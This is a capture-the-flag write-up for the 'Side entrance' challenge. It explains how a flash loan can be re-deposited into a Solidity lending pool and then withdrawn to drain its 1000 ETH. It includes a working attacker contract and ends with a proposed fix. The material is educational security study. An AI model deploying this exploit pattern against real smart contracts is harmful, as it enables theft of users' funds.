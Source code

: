 # Side entrance

## Challenge

A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.

This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.

You must take all ETH from the lending pool.

## Solution

We start analyzing the `flashLoan` function of the pool contract

```solidity
function flashLoan(uint256 amount) external {
    uint256 balanceBefore = address(this).balance;
    require(balanceBefore >= amount, "Not enough ETH in balance");

    IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

    require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");
}
```

We observe that this runs the `execute`function in the contract stored in the address `msg.sender`, and sends the borrowed amount with it. On the other hand, this pool offers two additional methods

```solidity
function deposit() external payable {
    balances[msg.sender] += msg.value;
}

function withdraw() external {
    uint256 amountToWithdraw = balances[msg.sender];
    balances[msg.sender] = 0;
    payable(msg.sender).sendValue(amountToWithdraw);
}
```

Notice that anyone that deposits value in this pool is able to retrieve it afterwards. An attacker can profit from this by using the borrowed money to deposit it in the pool. In this case, the total balance of the pool will not change and the flashloan will be finalized. However, when this is done, the attacker being the depositer now has the access to the funds via the withdraw function. And that is it. Let us now implement the attacker contract in [AttackerSideEntrance.sol]('./AttackerSideEntrance.sol')

```solidity
contract AttackerSideEntrance {

    fallback() external payable {}

    function attack(address _pool, uint256 amount) public {
        IPool(_pool).flashLoan(amount);
        IPool(_pool).withdraw();
        payable(msg.sender).transfer(address(this).balance);
    }

    function execute() external payable {
        IPool(msg.sender).deposit{value: msg.value}();
    }
}
```

First we need to import the pool contract or simply create an interface of it. In this case we created an interface called `IPool`. Then we create an `execute` function that takes the value from the loan and deposits it back to the pool. In order to execute the loan, we create an `attack` function that calls the `flashLoan` in `SideEntranceLenderPool.sol`. Once the flashloan is executed we can call the `withdraw` function. In order to receive funds in this attacker contract we should make it `payable` by adding a payable `fallback` function. Once the balance is in this contract, we transfer it to `msg.sender` which is the account launching the attack.

## Solving the issue

One way to block this hack could be to desactivate the `deposit` function while running the `flashLoan`. This can be done by setting the value of a toggle global variable to `false` when initiating the flashloan and requiring this variable to be true when depositing. Once the flashloan is executed the toggle variable would recover its `true` value. In this way, we make sure that during the `flashLoan` transaction the balance of the contract cannot be modified using the `deposit` function. Even if it is still possible to modify the balance by using a `selfdestruct`, these funds cannot be recovered via the `withdraw` function.
